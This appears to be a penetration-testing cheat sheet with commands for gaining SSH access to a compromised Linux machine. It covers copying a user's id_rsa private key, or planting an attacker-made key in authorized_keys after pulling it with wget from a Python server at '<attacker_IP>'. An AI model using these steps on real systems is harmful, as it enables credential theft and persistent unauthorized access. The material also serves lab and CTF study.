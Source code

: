 SSH with id_rsa file
---

with remote access/shell on target machine, check in `/home/<username>/.ssh/id_rsa` for the rsa file. <br>
if there, get it on attack machine and change permissions to read/write for user `chmod 600 id_rsa` <br><br>
      *NOTE: without correct permissions on that file ssh won't allow login (chmod 600 or 400)* <br><br>
after that, you should be able to ssh into target with: <br>
```
$ ssh <user>@<target_IP> -i id_rsa -p <port> *if non standard ssh port is used*
```

if the target doesn't have a generated id_rsa file you can generate your own and put the public key into the `authorized_keys` file on the target machine.<br>

to generate your own: <br>
```
$ ssh-keygen
# generates id_rsa and id_rsa.pub files in .ssh folder on local machine // follow prompts to pw protect file
```
Next, copy the content of the id_rsa.pub file and put it inside the authorized_keys file on the target machine (located in /.ssh folder). <br>

*NOTE: if there isn't an authorized_keys file in /.ssh you'll need to make one*
```
(on target machine)
/.ssh$ touch authorized_keys
# creates the file

/.ssh$ chmod 600 authorized_keys
# changes permissions for the user to read/write to file

NOTE: to get your file to target system set up python server on attack machine and use wget from target machine

(on attack machine)
$ python3 -m http.server <port>
# sets up server on your machine for target machine to grab files

(on target machine)
/.ssh$ wget http://<attacker_IP>:<port>/path/to/public/key
# grabs id_rsa_pub file

/.ssh$ cat id_rsa_pub
# displays the contents to be copied (can remove file afterwards)
 
/.ssh$ nano authorized_keys
# opens the file with nano to be edited // paste contents from the pub file here
```

After that you can ssh into target machine with your id_rsa file from attack machine.<br>
